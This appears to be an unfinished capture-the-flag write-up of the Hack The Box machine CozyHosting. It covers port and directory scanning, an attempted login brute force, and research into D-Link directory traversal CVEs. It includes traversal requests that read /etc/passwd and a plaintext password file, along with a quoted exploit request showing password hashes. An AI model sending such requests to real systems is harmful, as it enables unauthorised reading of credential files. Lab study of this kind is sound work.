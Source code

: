 ```yaml
---
description: https://app.hackthebox.com/machines/CozyHosting
---
```


# CozyHosting

Nmap

```
-[Tue Feb 27-13:46:47]-[table@parrot]-
-[~]$ nmap -sV -sC -T5 10.10.11.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 13:46 PST
Nmap scan report for 10.10.11.230
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.09 seconds
```

Gobuster

```
-[Tue Feb 27-13:49:14]-[table@parrot]-
-[~]$ gobuster dir -u http://cozyhosting.htb/ --wordlist /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

whatweb

```
-[Wed Feb 28-15:57:13]-[table@parrot]-
-[~]$ whatweb http://cozyhosting.htb/
http://cozyhosting.htb/ [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]

```

Attempting to login to the web portal using BurpSuite Intruder tab. This would be better if the BurpSuiteCE wasnt rate limited. Taking a long time to go through 168 million possibilities.\
Probably best to move on, now I will try to enumerate using the http-enum nmap script:

```
-[Wed Feb 28-16:07:37]-[table@parrot]-
-[~]$ nmap -sV --script=http-enum 10.10.11.230 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-28 16:43 PST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.085s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-enum: 
|   //system.html: CMNC-200 IP Camera
|   /Citrix//AccessPlatform/auth/clientscripts/cookies.js: Citrix
|   /.nsf/../winnt/win.ini: Lotus Domino
|   /uir//etc/passwd: Possible D-Link router directory traversal vulnerability (CVE-2018-10822)
|_  /uir//tmp/csman/0: Possible D-Link router plaintext password file exposure (CVE-2018-10824)
9000/tcp open  cslistener?
9999/tcp open  abyss?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 278.74 seconds

```

We get two listed vulnerabilities so let's try to exploit them.

### Exploitation

First, researching CVE-2018-10822, this vulnerability allows for directory traversal in the web interface on D-Link DWR-116 through 1.06, DIR-140L through 1.02, DIR-640L through 1.02, DWR-512 through 2.02, DWR-712 through 2.02, DWR-912 through 2.02, DWR-921 through 2.02, and DWR-111 through 1.01 devices. We can read arbitrary files via a /.. or // after "GET /uir" in an HTTP request:

```
GET /uri//etc/passwd
```

It may work in that it is not returning an error page, but there is more to do to see the contents. Let's research the CVE-2018-10824 vulnerability. It appears the administrative password is stored in plaintext in the /tmp/csman/0 file.

```
curl -X GET "http://cozyhosting.htb/uri//tmp/csman/0"
```

No luck there, further research. I found a github for a .yaml file relating to CVE-2018-10822. In the code I noticed the reference to exlpoit-db exploit # 45678.

Using searchsploit we find an exploit to try:

```
-[Wed Feb 28-17:19:34]-[table@parrot]-
-[~]$ searchsploit 45678
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
D-Link Routers - Directory Traversal                                                        | hardware/webapps/45678.md
-------------------------------------------------------------------------------------------- ---------------------------------
-------------------------------------------------------------------------------------------- ---------------------------------
 Shellcode Title                                                                            |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Linux/x64 - Bind_tcp (0.0.0.0:4444) + Password (12345678) + Shell (/bin/sh) Shellcode (142  | linux/49472.c
-------------------------------------------------------------------------------------------- ---------------------------------
Papers: No Results

```

From the research, it is interesting to note that the vulnerability can be used retrieve administrative password using the other disclosed vulnerability - CVE-2018-10824.

This vulnerability was reported previously by Patryk Bogdan in CVE-2017-6190 but he reported it is fixed in certain release but unfortunately it is still present in even newer releases. The vulnerability is also present in other D-Link routers and can be exploited not only (as the original author stated) by double dot but also absolutely using double slash.

Let's try to curl the ip address file location of passwd

```
-[Wed Feb 28-17:23:50]-[table@parrot]-
-[~]$ curl http://10.10.11.230/uir//etc/passwd
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```

Interesting, we can check online to see if searching the previously known vulnerability that was not fixed, CVE-2017-6190, yields anything more.

We find in exploit-db exploit # 41840, we see:

```
HTTP Request:
GET /uir/../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.2.1
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

HTTP Response:
HTTP/1.0 200 OK
Content-Type: application/x-none
Cache-Control: max-age=60
Connection: close

root:$1$$taUxCLWfe3rCh2ylnFWJ41:0:0:root:/root:/bin/ash
nobody:$1$$qRPK7m23GJusamGpoGLby/:99:99:nobody:/var/usb:/sbin/nologin
ftp:$1$$qRPK7m23GJusamGpoGLby/:14:50:FTP USER:/var/usb:/sbin/nologin


```

This is the right path but we must think harder on this. We could use the curl command again and follow the redirect with -L. Doing so takes us to the homepage though.

Using curl we find out Bootstrap's version Bootstrap v5.2.3. Searching for vulnerabilities, there are no direct vulnerabilities.

Another promising exploit website

{% embed url="https://sploit.tech/2018/10/12/D-Link.html" %}

Exploit is for a router.

